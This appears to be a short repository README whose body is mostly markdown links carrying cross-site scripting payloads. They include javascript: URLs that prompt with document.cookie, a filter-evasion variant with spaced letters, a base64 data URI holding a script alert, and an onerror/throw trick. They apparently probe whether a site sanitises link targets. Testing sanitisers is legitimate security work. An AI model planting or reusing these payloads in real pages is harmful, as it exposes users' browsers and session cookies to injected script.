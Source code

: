 # Reposotory
Description is that try to create a new repository 
[url](https://www.ghjjhkgjj.com)

[url](javascript:prompt(document.cookie))
[url](j a v a s c r i p t:prompt(document.cookie))
[click](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
[click](javascript:window.onerror=alert;throw%201)
